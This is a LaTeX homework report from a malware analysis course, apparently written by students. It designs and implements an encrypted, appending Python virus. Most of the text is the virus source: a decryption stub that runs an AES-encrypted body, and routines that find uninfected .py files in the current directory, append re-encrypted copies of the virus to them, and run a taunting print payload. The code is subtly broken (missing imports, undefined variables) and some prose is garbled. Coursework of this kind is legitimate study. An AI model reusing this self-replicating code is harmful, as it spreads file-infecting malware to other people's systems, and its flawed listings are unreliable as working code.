\documentclass[a4paper,11pt]{article}
\usepackage[english]{babel}
\usepackage[utf8]{inputenc}

\usepackage{cite}
\usepackage{listings}
\usepackage{amssymb, amsmath, latexsym}
\usepackage{syntax}
\usepackage{multicol}
\usepackage{tikz-cd}
\usepackage{color}
\usepackage{graphicx}
\usepackage{amsthm}
\usepackage{graphics}
\usepackage{listings}
\usepackage{stmaryrd}
\usepackage{array}
\usepackage{setspace}
\usepackage{minted}
\AtBeginEnvironment{minted}{
    \fontsize{11}{11}
    \selectfont}

%%%%%%%%%%%
% 			Macro		%
%%%%%%%%%%%

%%% Definition of the language used
\lstdefinelanguage{code}
  { keywords={},
   otherkeywords={var_dump, echo},
	basicstyle=\ttfamily,
    keywordstyle=\bfseries\color{blue},
    sensitive=false,
    commentstyle=\color{green!40!black},
    showspaces=false,
    %numbers=left,
    tabsize=2,
    literate={~} {$\sim$}{1},
    showstringspaces=false,emph={3}
    showtabs=true,
    morecomment=[l]{//},
    morecomment=[s]{/*}{*/},
    morestring=[b],
    breaklines=true,
    breakindent=12pt
}

\lstset{language=code}

\newcommand{\tocode}[1]{\mbox{\lstinline@#1@}}

\begin{document}
\author{Vincenzo Arceri VR386484 \\ Giovanni Liboni VR387955 \\ Alberto Marini}
\title{Malware analysis and design \\ Homework No. 3}
\maketitle

\section{Introduction}
The purpose is to design a virus similar to the \textit{vbash} one, except that it will be encrypted. Its structure is divided in two parts:
\begin{itemize}
\item The first part of the code will be unencrypted and will simply consist of the decryption function. The key will be made of the first bytes of the infected virus.
\item The second part (the most important one) will consist of the main body of the virus.
\end{itemize}
The virus will be an appending one. It will spread as follows:
\begin{itemize}
\item It looks for infected is executed.
\item During the infection, it creates a specific key for each file (once again, a few bytes are taken from the target file), then encrypts its own main body and adds both the decrypting routine and the ( encrypted ) main viral body to the target file.
\item A potential payload may be triggered ( with or without a delayed action mechanism).
\end{itemize}

\section{Virus design}
We decide to write the homework assigned using the language Python.

The virus is divived in two principle parts:
\begin{itemize}
\item virus decryption routine: it is not encrypted and it has to decrypt the encrypted virus program body and execute it;
\item encrypted virus program body: it is encrypted (using the first line of the virus as the encryption key) and contains the infection and payload phases.
\end{itemize}

When the encrypted virus program body is decrypted and executed, it will do the following operations:
\begin{itemize}
\item search for potentially infectable file: the virus program body search for other Python script into the current directory;
\item checks if the Python file is already infected: if so, skip the file and try with another one to prevent the over infection;
\item infect the file: append to the target its own code composed, as the original virus, with the virus decryption routine and the encrypted virus program body, using the first line of the target as encryption key.
\end{itemize}

The Figure \ref{fig:mission} shows graphically what it was explained above.

\begin{figure}
\centering

\includegraphics[scale=0.8]{img/virus-design}
\caption{Virus design\label{fig:mission}}
\end{figure}

\section{Implementation}

\begin{minted}[ mathescape, frame=lines]{python} 
# Open the virus itself
this = open(__main__.__file__, 'r')
# Set copy variable to False
copy = False
# Initialize an empty payload
cipher_payload = ''

# Search for the encrypted main body of the virus and copy it into cipher_payload
for line in this:
   if line.strip() == '# Start payload':
      copy = True
   elif line.strip() == '# End payload':
      copy = False
   elif copy:
      cipher_payload = cipher_payload + line
# Decrypt the main body of the virus and execute it.
e = decrypt(cipher_payload[1:])
exec e

# Encrypted main body of the virus
# Start payload
#8eoDXnZwwdY/TUaf5IQOo5+tbvE2zllu4t0m...
# End payload
\end{minted}


\begin{minted}[mathescape,
               linenos]{python}
import os
def is_infected(filename):
   f = open(filename, 'r')
   lines = f.readlines()
   if len(lines) < 46:
      return False
   return lines[len(lines) - 46].startswith('######################################################## First script python')

def infect(filename):
   # Rename the file as a temporary file
   os.rename(filename, filename + '-copy')
   # Create a new file named as previous file
   destination = open(filename, 'w')
   # Set execution permission to the file
   os.chmod(filename, S_IEXEC)
   # Open the temporary file   
   source = open(filename + '-copy', 'r')
   # Open this file
   this = open(__main__.__file__, 'r')

   # Copy the content of this file into the destination file
   for line in source:
      destination.write(line)
   # Write the key
   destination.write("\n######################################################## First script python\n")
   destination.write("# coding=utf-8\n")
   destination.write("# Start Uncrypted\n")
   # Set the copy to False, uncrypted body not found yet
   copy = False
   # Initialize result
   result = ''
   # For every line
   for line in this:
      if line.strip() == '# Start Uncrypted':
         copy = True
      elif line.strip() == '# End Uncrypted':
         destination.write('# End Uncrypted')
         copy = False
      elif copy:
         destination.write(line);

   destination.write("\n# Start payload\n")
   destination.write("#")
   destination.write(str(encrypt(e, filename)))
   destination.write("\n# End payload")

   os.remove(filename + '-copy')
   source.close()
   destination.close()
   this.close()
 
def find_and_infect_files():
   path = '.'
   # Lists all files inside current directory
   dirs = os.listdir(path)

   # For each file try to infect it
   for filename in dirs:
      # If file ends with .py, is not already infected and it's not virus itself (virus.py)
      if filename.endswith('.py') and (not is_infected(filename)) and (filename != "virus.py"):
         print "Infected " +  str(filename)
         # Infect file with the virus
         infect(filename)

def encrypt(data,filename):
   source = open(filename + '-copy', 'r')

   iv = Random.new().read(AES.block_size)
   cipher = AES.new(StringIO.StringIO(source).read(24), AES.MODE_CFB, iv)
   encrypted = iv + cipher.encrypt(data)

   source.close()
   return base64.b64encode(encrypted)
 ####################

def payload():
   print "This file is infected infected! Mhuahauhauahau!"

# Find and infect files
find_and_infect_files()
# Execute the payload
payload()
\end{minted}

\end{document}
